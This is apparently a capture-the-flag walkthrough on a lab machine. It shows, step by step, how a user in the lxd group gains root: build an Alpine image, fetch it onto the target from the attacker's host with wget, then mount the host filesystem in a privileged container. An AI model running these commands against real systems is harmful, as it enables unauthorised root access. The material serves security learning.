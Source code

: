 ~~~
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
                                                                                              ^^^^^^^^
~~~

I searched for privilege escalation with `lxd` and found this [article](https://www.hackingarticles.in/lxd-privilege-escalation/) which walks us through the process. Follow the steps below to build alpine and start a server to upload it to the target machine:

* **Note:** If the building process doesn't work, try using a VPN. If you still have a problem, check the "Issue" section in the repository, because you might need to change a part of the code like I did.

On your machine:

~~~
# git clone https://github.com/saghul/lxd-alpine-builder.git
# cd lxd-alpine-builder
# ./build-alpine
# python3 http.server 8000
~~~

Now there should be a newly created tar file. Let's head back to the target machine and downlaod that file:

~~~
$ wget http://<YOUR IP>:8000/<NAME OF THE NEWLY CREATED TAR FILE>
~~~

Now that we have uploaded our file, we can move forward and import the image:

~~~
john@exploitable:~$ lxc image import ./alpine-v3.15-x86_64-20211219_0353.tar.gz --alias myimage
~~~

Let's list lxc images to see if it worked:

~~~
john@exploitable:~$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| myimage | b97d55b690d3 | no     | alpine v3.15 (20211219_03:53) | x86_64 | 3.65MB | Dec 19, 2021 at 9:24am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
~~~

As you can see, our image has been added. Now we can complete the process:

~~~
john@exploitable:~$ lxc init myimage ignite -c security.privileged=true
Creating ignite
john@exploitable:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
john@exploitable:~$ lxc start ignite
john@exploitable:~$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~~~
